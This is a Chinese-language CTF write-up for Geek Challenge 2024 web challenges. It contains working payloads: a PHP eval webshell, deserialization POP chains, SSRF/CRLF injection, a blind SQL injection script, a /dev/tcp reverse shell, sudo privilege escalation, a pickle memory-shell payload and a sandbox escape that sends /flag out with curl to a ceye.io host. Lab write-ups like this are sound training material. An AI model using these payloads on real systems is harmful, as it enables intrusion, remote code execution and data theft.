

## 100%的⚪

F12审计源码


Base64解密


## baby\_upload

%00截断，属于nginx解析问题，会把file.ext当作php文件解析


## ez\_http


## rce\_me

```
if (!is_array($_POST["start"])) {
    if (!preg_match("/start.*now/is", $_POST["start"])) {
        if (strpos($_POST["start"], "start now") === false) {
            die("Well, you haven't started.<br>");
        }
    }
} 
```

post：start=start now

```
if (
    sha1((string) $_POST["__2024.geekchallenge.ctf"]) == md5("Geekchallenge2024_bmKtL") &&
    (string) $_POST["__2024.geekchallenge.ctf"] != "Geekchallenge2024_bmKtL" &&
    is_numeric(intval($_POST["__2024.geekchallenge.ctf"]))
)

# md5("Geekchallenge2024_bmKtL")= 0e073277003087724660601042042394
# sha1(10932435112)= 0e07766915004133176347055865026311692244
```

弱比较，使用0e科学计数法

php下划线trick：[](https://www.cnblogs.com/icfh/p/17694345.html)[Bypass：URL非法参数名产生的绕过问题 - Icfh - 博客园 (cnblogs.com)](https://www.cnblogs.com/icfh/p/17694345.html)

post：\_\[2024.geekchallenge.ctf=10932435112

```
 foreach ($_GET as $key => $value) {
        $$key = $value;
    }
```

接收任意GET参数并且转为变量

```

    if (intval($year) < 2024 && intval($year + 1) > 2025) {
        echo "Well, I know the year is 2024<br>";

        if (preg_match("/.+?rce/ism", $purpose)) {
            die("nonono");
        }

        if (stripos($purpose, "rce") === false) {
            die("nonononono");
        }
        echo "Get the flag now!<br>";
        eval($GLOBALS['code']);
    }
```

intval绕过，year=10e10

正则直接传入purpose=rce即可


## ez\_include

相关文章：[文件包含漏洞三道题\_php require once 绕过-CSDN博客](https://blog.csdn.net/qz362228/article/details/124524296)

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/starven_secret.php
```


```
 <?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET ["syc"])){
    $file = $_GET ["syc"];
    $hint = "register_argc_argv = On";
    if (preg_match("/config|create|filter|download|phar|log|sess|-c|-d|%|data/i", $file)) {
        die("hint都给的这么明显了还不会做?");
    }
    if(substr($_SERVER['REQUEST_URI'], -4) === '.php'){
        include $file;
    }
}
```

register\_argc\_argv 打开，可以使用pearcmd进行写入木马

相关文章：[利用 pearcmd 从 LFI 到 getshell (furina.org.cn)](https://furina.org.cn/2023/09/05/pearcmd/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%8B%93%E5%B1%95)

```
/levelllll2.php?syc=/usr/local/lib/php/pearcmd.php&+config-create+/<?=@eval($_POST['shell']);?>+/var/www/html/shell.php
```

一定要抓包把被转义的字符改回来


## Can\_you\_Pass\_Me

SSTI工具：[Marven11/Fenjing: 专为CTF设计的Jinja2 SSTI全自动绕WAF脚本 | A Jinja2 SSTI cracker for bypassing WAF, designed for CTF (github.com)](https://github.com/Marven11/Fenjing)

稍等一会绕过




## Problem\_On\_My\_Web

传入非法url报错看到源码


再写一个alert(document.cookie)进去然后多点几下就行了


## SecretInDrivingSchool

源码泄露


直接爆破就可以了，密码是：SYC@chengxing，不变的


## ezpop

```
<?php
Class lover{
    public $J1rry="data://text/plain,Welcome GeekChallenge 2024";
    public $meimeng=12312313;
    public function __destruct(){
        if(isset($this->J1rry)&&file_get_contents($this->J1rry)=='Welcome GeekChallenge 2024'){

            $this->meimeng->source;
        }
    }

    public function __invoke()
    {
        echo $this->meimeng;
    }

}

Class Geek{
    public $GSBP;
    public function __get($name){
        $Challenge = $this->GSBP;

        return $Challenge();
    }

    public function __toString(){
        $this->GSBP->Getflag();
        return "";
    }

}
Class SYC{
    public  $starven="php://filter/write=string.strip_tags/?>php_value auto_prepend_file /flag\n#/resource=.htaccess" ;
}

$lover1 = new lover();
$lover2 = new lover();
$syc=new SYC();
$geek1=new Geek();
$geek1->GSBP=$lover2;

$geek2=new Geek();
$lover1->meimeng=$geek1;
$lover2->meimeng=$geek2;

$geek2->GSBP=$syc;

$s=serialize($lover1);

$s = preg_replace('/s:7:"m/', 'S:7:"\\\6d', $s);
echo urlencode($s);

#O%3A5%3A%22lover%22%3A2%3A%7Bs%3A5%3A%22J1rry%22%3Bs%3A44%3A%22data%3A%2F%2Ftext%2Fplain%2CWelcome+GeekChallenge+2024%22%3BS%3A7%3A%22%5C6deimeng%22%3BO%3A4%3A%22Geek%22%3A1%3A%7Bs%3A4%3A%22GSBP%22%3BO%3A5%3A%22lover%22%3A2%3A%7Bs%3A5%3A%22J1rry%22%3Bs%3A44%3A%22data%3A%2F%2Ftext%2Fplain%2CWelcome+GeekChallenge+2024%22%3BS%3A7%3A%22%5C6deimeng%22%3BO%3A4%3A%22Geek%22%3A1%3A%7Bs%3A4%3A%22GSBP%22%3BO%3A3%3A%22SYC%22%3A1%3A%7Bs%3A7%3A%22starven%22%3Bs%3A93%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%2F%3F%3Ephp_value+auto_prepend_file+%2Fflag%0A%23%2Fresource%3D.htaccess%22%3B%7D%7D%7D%7D%7D
```

简单分析一下。首先是data的正则用16进制绕过，lover类的destruct触发Geek类的get魔术方法，进而触发lover的invoke，然后是Geek的tostring，最后进入到SYC的call方法。

死亡exit的绕过：由于正则过滤的非常严格，无法直接写入php木马，但是可以通过写入htaccess配置文件预包含flag


## ez\_SSRF

www.zip备份文件泄露

```
#calculator.php
<?php
$admin="aaaaaaaaaaaadmin";
$adminpass="i_want_to_getI00_inMyT3st";

function check($auth) {
    global $admin,$adminpass;
    $auth = str_replace('Basic ', '', $auth);
    $auth = base64_decode($auth);
    list($username, $password) = explode(':', $auth);
    echo $username."<br>".$password;
    if($username===$admin && $password===$adminpass) {
        return 1;
    }else{
        return 2;
    }
}
if($_SERVER['REMOTE_ADDR']!=="127.0.0.1"){
    exit("Hacker");
}
$expression = $_POST['expression'];
$auth=$_SERVER['HTTP_AUTHORIZATION'];
if(isset($auth)){
    if (check($auth)===2) {
        if(!preg_match('/^[0-9+\-*\/]+$/', $expression)) {
            die("Invalid expression");
        }else{
            $result=eval("return $expression;");
            file_put_contents("result",$result);
        }
    }else{
        $result=eval("return $expression;");
        file_put_contents("result",$result);
    }
}else{
    exit("Hacker");
}
```

```
#h4d333333.php
<?php
error_reporting(0);
if(!isset($_POST['user'])){
    $user="stranger";
}else{
    $user=$_POST['user'];
}

if (isset($_GET['location'])) {
    $location=$_GET['location'];
    $client=new SoapClient(null,array(
        "location"=>$location,
        "uri"=>"hahaha",
        "login"=>"guest",
        "password"=>"gueeeeest!!!!",
        "user_agent"=>$user."'s Chrome"));

    $client->calculator();

    echo file_get_contents("result");
}else{
    echo "Please give me a location";
}
```

在calculator.php中，对ip的校验使用的是`remote_addr`，这个是无法通过HTTP头进行伪造的

只能通过h4d333333.php对calculator进行请求

相关文章：[利用SoapClient类进行SSRF+CRLF攻击 | Xiaojian Yuan's Homepage (lethe.site)](https://lethe.site/2019/0906/SSRF-CRLF-Attack-by-SoapClient/)

```
<?php
$target = 'http://xxx/xxx.php';
$post_string = 'expression=system("cat /flag > flag");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'AUTHORIZATION: YWFhYWFhYWFhYWFhZG1pbjppX3dhbnRfdG9fZ2V0STAwX2luTXlUM3N0'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>
#只需要useragent的部分
#wupco%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aX-Forwarded-For: 127.0.0.1%0d%0aAUTHORIZATION: YWFhYWFhYWFhYWFhZG1pbjppX3dhbnRfdG9fZ2V0STAwX2luTXlUM3N0%0d%0aContent-Length: 38%0d%0a%0d%0aexpression=system("cat /flag > flag");
```


## funnySQL

考点：Benchmark时间盲注+无列名注入

进行关键字Fuzz，过滤如图


测试payload

```
'||if((2>1),BENCHMARK(10000000,SHA1('test')),1)#
可以看到页面进入了转圈
```


剩下就写脚本就行了，由于information被过滤，使用`mysql.innodb_table_stats`来代替information\_schema

```
if((select(COUNT(*)>0)from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/0,1),BENCHMARK(10000000,SHA1('test')),1)
用这个来判断列数
```

完整脚本如下

```
import requests
from urllib.parse import urlencode
from time import time

url="http://80-5a7887db-128e-47a8-ab4c-dafafc7a3c95.challenge.ctfplus.cn/index.php?username="

dic="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#&'()*+,-./:;<=>?@[\]^`{|}~"

flag=''
for i in range(1,100):
    for s in dic:

        #payload=f"'||if((SUBSTR(DATABASE(),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"   database: syclover

        #payload = f"'||if((substr((select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name)like'syclover'),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"  #  table name:Rea11ys3ccccccr3333t,users

        #payload=f"'||if((substr((select(group_concat(database_name))/**/from(mysql.innodb_table_stats)where(table_name)LIKE'Rea11ys3ccccccr3333t'),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"

        #payload='||if((select(COUNT(*)>0)from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/0,1),BENCHMARK(10000000,SHA1('test')),1)#  只有一列

        payload=f"'||if((substr((select*from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/1,1),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"

        payload= urlencode({'': payload})[1::]
        start=time()
        req=requests.get(url+payload)
        end=time()

        if end-start>1:
            flag+=s
            print("flag: ",flag)
            break
```


## PHP不比Java差

```
 <?php
highlight_file(__FILE__);
error_reporting(0);
include "secret.php";

class Challenge{
    public $file;
    public function Sink()
    {
        echo "<br>!!!A GREAT STEP!!!<br>";
        echo "Is there any file?<br>";
        if(file_exists($this->file)){
            global $FLAG;
            echo $FLAG;
        }
    }
}

class Geek{
    public $a;
    public $b;
    public function __unserialize(array $data): void
    {
        $change=$_GET["change"];
        $FUNC=$change($data);
        $FUNC();
    }
}

class Syclover{
    public $Where;
    public $IS;
    public $Starven;
    public $Girlfriend;
    public function __toString()
    {
        echo "__toString is called<br>";
        $eee=new $this->Where($this->IS);
        $fff=$this->Starven;
        $eee->$fff($this->Girlfriend);
       
    }
}

unserialize($_POST['data']); 
```

首先toString要使用`implode`函数触发，然后其中可以看到有关键字`new`，可以联想到PHP原生类。

PHP函数反射类的相关知识：[PHP: ReflectionFunction - Manual](https://www.php.net/manual/zh/class.reflectionfunction.php)

由于无法写入Challenge的file属性，就只能通过反射其他函数来进行RCE，也就是说Challenge类不需要

根据官方文档里的使用方式


可以如下构造

```
<?php
.....
.....
$e=new Geek();
$e->a=new Syclover();
$e->a->Where="ReflectionFunction";
$e->a->IS="system";
$e->a->Starven="invokeArgs";
$e->a->Girlfriend=array('echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >shell.php');
echo serialize($e);

//O:4:"Geek":2:{s:1:"a";O:8:"Syclover":4:{s:5:"Where";s:18:"ReflectionFunction";s:2:"IS";s:6:"system";s:7:"Starven";s:10:"invokeArgs";s:10:"Girlfriend";a:1:{i:0;s:66:"echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >shell.php";}}s:1:"b";N;}
```

需要对payload进行URL编码


然后读取根目录flag，需要权限


```
find / -user root -perm -4000 -print 2>/dev/null
```


存在file命令可以使用

相关文章：[](https://blog.csdn.net/CoreNote/article/details/122093180)[file | GTFOBins](https://gtfobins.github.io/gtfobins/file/)


额，好像无法直接在页面回显，需要反弹Shell才能看到报错信息

```
system("/bin/bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
```

注意payload依然需要url编码


## not\_just\_pop

源码如下

```
<?php
highlight_file(__FILE__);
ini_get('open_basedir');

class lhRaMK7{
    public $Do;
    public $You;
    public $love;
    public $web;
    public function __invoke()
    {
        echo "我勒个豆，看来你有点实力，那接下来该怎么拿到flag呢？"."<br>";
        eval($this->web);
    }
    public function __wakeup()
    {
        $this->web=$this->love;
    }
    public function __destruct()
    {
        die($this->You->execurise=$this->Do);
    }

}

class Parar{
    private $execurise;
    public $lead;
    public $hansome;
    public function __set($name,$value)
    {
        echo $this->lead;
    }
    public function __get($args)
    {
        if(is_readable("/flag")){
            echo file_get_contents("/flag");
        }
        else{
            echo "还想直接读flag，洗洗睡吧，rce去"."<br>";
            if ($this->execurise=="man!") {
                echo "居然没坠机"."<br>";
                if(isset($this->hansome->lover)){
                    phpinfo();
                }
            }
            else{
                echo($this->execurise);
                echo "你也想被肘吗"."<br>";
            }
        }
    }
}

class Starven{
    public $girl;
    public $friend;
    public function __toString()
    {
        return "试试所想的呗，说不定成功了"."<br>".$this->girl->abc;
    }
    public function __call($args1,$args2)
    {
        $func=$this->friend;
        $func();
    }

}
class SYC{
    private $lover;
    public  $forever;
    public function __isset($args){
        return $this->forever->nononon();
    }

}

$Syclover=$_GET['Syclover'];
if (isset($Syclover)) {
    unserialize(base64_decode($Syclover));
    throw new Exception("None");
}else{
    echo("怎么不给我呢，是不喜欢吗？");
}
```

POP链条

```
lhRaMK7->__destruct
Parar->__get
SYC->__isset
Starven->__call
lhRaMK7->__invoke
```

其中`throw new Exception("None");`，用GC回收机制可以绕过

- [浅析PHP GC垃圾回收机制及常见利用方式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11843?u_atoken=dbe66aa09339845c2083d43ed52adf34&u_asig=1a0c384917311654822547467e013a&time__1311=eqmx9DcDBDgDn0WeDsD7Iq0%3DGO3aFFc9qqID#toc-0)

wakeup不用管，只需要把love设置为命令即可

```

<?php
class lhRaMK7{
    public $Do="phpinfo();";
    public $You;
    public $love;
    public $web;
}

class Parar{
    private  $execurise="man!";
    public $lead;
    public $hansome;

    public function getexe(){
        return $this->execurise;
    }
}

class Starven{
    public $girl;
    public $friend;

}
class SYC{
    private $lover="123";
    public  $forever;

    function getlover(){
        return $this->lover;
    }

    public function __isset($args){
        echo "__isset";
    }

}

$l=new lhRaMK7();
$p=new Parar();
$star=new Starven();

$syc=new SYC();

$l->You=$p;
$p->lead=$star;
$star->girl=$p;
$p->hansome=&$syc;
$syc->forever=$star;
$star->friend=$l;

//命令
$l->love="include '/tmp/a.php';"; //$l->love = "file_put_contents('/tmp/a.php', '<?php eval(\$_POST[\\'a\\']); ');";

$ser=serialize(array($l,new lhRaMK7()));
echo $ser."\n";
$ser=str_replace("i:1;O:7","i:0;O:7",$ser);
echo base64_encode($ser);
```

这里的思路是先写入一个/tmp/a.php一句话木马，然后再包含他，POST执行命令

在phpinfo里面看见了基本上系统命令函数被过滤完了


连接蚁剑，使用`disable_functions`插件，如图


正常没有权限读取flag


提示说尝试sudo


发现env是剧有特殊权限的

通过sudo和env可以执行任意命令

```
sudo env bash -c 'cat /flag'
```


## ez\_python

给的Hint文件

```
import os
import secrets
from flask import Flask, request, render_template_string, make_response, render_template, send_file
import pickle
import base64
import black

app = Flask(__name__)

#To Ctfer：给你源码只是给你漏洞点的hint，怎么绕？black.py黑盒，唉无意义
@app.route('/')
def index():
    return render_template_string(open('templates/index.html').read())

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        usname = request.form['username']
        passwd = request.form['password']

        if usname and passwd:
            heart_cookie = secrets.token_hex(32)
            response = make_response(f"Registered successfully with username: {usname} <br> Now you can go to /login to heal starven's heart")
            response.set_cookie('heart', heart_cookie)
            return response

    return  render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    heart_cookie = request.cookies.get('heart')
    if not heart_cookie:
        return render_template('warning.html')

    if request.method == 'POST' and request.cookies.get('heart') == heart_cookie:
        statement = request.form['statement']

        try:
            heal_state = base64.b64decode(statement)
            print(heal_state)
            for i in black.blacklist:
                if i in heal_state:
                    return render_template('waf.html')
            pickle.loads(heal_state)
            res = make_response(f"Congratulations! You accomplished the first step of healing Starven's broken heart!")
            flag = os.getenv("GEEK_FLAG") or os.system("cat /flag")
            os.system("echo " + flag + " > /flag")
            return res
        except Exception as e:
            print( e)
            pass
            return "Error!!!! give you hint: maybe you can view /starven_s3cret"

    return render_template('login.html')

@app.route('/monologue',methods=['GET','POST'])
def joker():
    return render_template('joker.html')

@app.route('/starven_s3cret', methods=['GET', 'POST'])
def secret():
    return send_file(__file__,as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False)
```

这道题的和MoeCTF2024的`PetStore`差不多，我的文章里刚好有，可以直接写入Flask内存马

- [MoeCTF 2024 - HYH (hyhforever.top)](https://www.hyhforever.top/moectf-2024/)

里面的poc直接拿过来用就可以了

```
import pickle
import base64

import os

class Pet:
    def __reduce__(self):
        return (eval, (
        "__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cmd')).read())",))

e = Pet()
poc = pickle.dumps(e)

print(base64.b64encode(poc).decode())
#gASVwgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIymX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjbWQnKSkucmVhZCgpKZSFlFKULg==
```

然后直接执行命令即可


## py\_game

随便注册一个用户进行登录，提示权限是普通用户


开始游戏，在源码里得到flag的位置在/flag


将当前用户的session值拿去解密

jwt解密失败


由于题目是Flask搭建的，可以考虑尝试flask-session的密钥爆破（因为并没有得到任何secret-key的信息）

Github工具：[Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. (github.com)](https://github.com/Paradoxis/Flask-Unsign)

```
pip3 install flask-unsign[wordlist]
```


得到密钥为：`a123456`

下面是python的生成session的脚本

```
from itsdangerous import base64_decode
import zlib
from flask.sessions import SecureCookieSessionInterface
import ast

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)

def decode(session_cookie_value, secret_key=None):
    try:
        if secret_key is None:
            compressed = False
            payload = session_cookie_value
            if payload.startswith('.'):
                compressed = True
                payload = payload[1:]
            data = payload.split(".")[0]
            data = base64_decode(data)
            if compressed:
                data = zlib.decompress(data)
            return data
        else:
            app = MockApp(secret_key)
            si = SecureCookieSessionInterface()
            s = si.get_signing_serializer(app)
            return s.loads(session_cookie_value)
    except Exception as e:
        return "[Decoding error] {}".format(e)

# 示例用法
cookie_structure = encode(secret_key='a123456',session_cookie_structure="{'_flashes': [('success', '登录成功')], 'username': 'admin'}")

print(cookie_structure)
```

替换cookie后进入dashboard


在`Admin Panel`里下载到源码的pyc文件，去反编译网站：[python反编译 - 在线工具 (tool.lu)](https://tool.lu/pyc/)

经过我删减后的有用源码如下

```
import json
from lxml import etree
from flask import Flask, request, render_template, flash, redirect, url_for, session, Response, send_file, jsonify

app = Flask(__name__)
app.secret_key = 'a123456'
app.config[
    'xml_data'] = '<?xml version="1.0" encoding="UTF-8"?><GeekChallenge2024><EventName>Geek Challenge</EventName><Year>2024</Year><Description>This is a challenge event for geeks in the year 2024.</Description></GeekChallenge2024>'

admin = User('admin', '123456j1rrynonono')
Users = [
    admin]

def update(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and isinstance(v, dict):
                update(v, dst.get(k))
            else:
                dst[k] = v
        if hasattr(dst, k) and isinstance(v, dict):
            update(v, getattr(dst, k))
            continue
        setattr(dst, k, v)

def xml_parse():
    try:
        xml_bytes = app.config['xml_data'].encode('utf-8')
        parser = etree.XMLParser(True, True, **('load_dtd', 'resolve_entities'))
        tree = etree.fromstring(xml_bytes, parser, **('parser',))
        result_xml = etree.tostring(tree, True, 'utf-8', True, **('pretty_print', 'encoding', 'xml_declaration'))
        return Response(result_xml, 'application/xml', **('mimetype',))
        except etree.XMLSyntaxError:
        e = None

        try:
            return str(e)
            e = None
            del e
        return None

xml_parse = app.route('/xml_parse')(xml_parse)
black_list = [
    '__class__'.encode(),
    '__init__'.encode(),
    '__globals__'.encode()]

def update_route():
    if 'username' in session and session['username'] == 'admin':
        if request.data:

            try:
                if not check(request.data):
                    return ('NONONO, Bad Hacker', 403)
                data = None.loads(request.data.decode())
                print(data)
                if all((lambda .0: pass)(data.values())):
                    update(data, User)
                    return (jsonify({
                        'message': '更新成功'}), 200)
                return None
            except Exception:
                e = None

                try:
                    return (f'''Exception: {str(e)}''', 500)
                    e = None
                    del e
                return ('No data provided', 400)
                return redirect(url_for('login'))
                return None
```

值得注意的就是这个xml的路由，其中包含了更新操作

由于数据是直接获取的`request.data`并且只能通过json格式获取，那么容易联想到python的`原型链污染`

包括在极客大挑战2023的文章中也出现过类似题目，这里不再赘述

- [极客大挑战2023 - HYH (hyhforever.top)](https://www.hyhforever.top/geekchallenge2023/)

- [Python原型链污染攻击利用技巧 - Py学习 (python88.com)](https://www.python88.com/topic/162037)

总的思路来说，就是对app.config里的xml值进行更新，然后请求`xml_parse`进行渲染

```
black_list = [
    '__class__'.encode(),
    '__init__'.encode(),
    '__globals__'.encode()]
```

黑名单可以使用`unicode`编码绕过，也就是`\u00`加上十六进制的数字

这段代码为什么会出现XXE？

问题就在于这里的`etree.XMLParser`里的第二个参数`resolve_entities`，如果设置为了True，则允许引入外部实体


XXE的部分可以简单看一下这几篇文章

- [XXE漏洞&绕过 - CxAgoni - 博客园 (cnblogs.com)](https://www.cnblogs.com/CxAgoni/p/17715330.html)

- [【小迪安全】Day39web漏洞-XXE&XML之利用检测绕过全解 - 哔哩哔哩 (bilibili.com)](https://www.bilibili.com/read/cv14409425/?jump_opus=1)


至于这个file协议，不清楚是不是python包里的自带的过滤，小写的file是会报错`invalid character`

发包之后在来到`/xml_parse`路由访问即可获取到flag


## noSandbox

mongoDB注入+沙盒逃逸

MongoDB注入的相关知识

- [beginCTF 2024 Web方向题解WP 全\_ctf websocket-CSDN博客](https://jay17.blog.csdn.net/article/details/136052251?fromshare=blogdetail&sharetype=blogdetail&sharerId=136052251&sharerefer=PC&sharesource=git_clone&sharefrom=from_link)

- [Nosql注入总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/358650.html)

如图构造payload登录成功


进入沙盒逃逸

相关知识文章

- [全世界最简单的CTF - nnonkey k1n9的博客](http://49.232.222.195/index.php/archives/714/)

- [NKCTF2024-web-wp - Eddie\_Murphy - 博客园 (cnblogs.com)](https://www.cnblogs.com/EddieMurphy-blogs/p/18094228)

这里使用的是`curl -T`将目标文件外带

并且使用到了ceye平台

- [CEYE平台的使用 - 时光不改 - 博客园 (cnblogs.com)](https://www.cnblogs.com/zhaijiahui/p/9160913.html)

构造payload

```
throw new Proxy({}, {
get: function(){
const test =`Process`.toLocaleLowerCase();
const exp =`child_Process`.toLocaleLowerCase();
const cc = arguments.callee.caller;
const p = (cc.constructor.constructor(`return ${test}`))();
const obj = p.mainModule.require(`${exp}`);
const ex = Object.getOwnPropertyDescriptor(obj,
`${`${`exe`}cSync`}`);
return ex.value(`curl http://5pgv47.ceye.io/ -T /flag`).toString();
}
})
```


发包后在ceye中得到回显


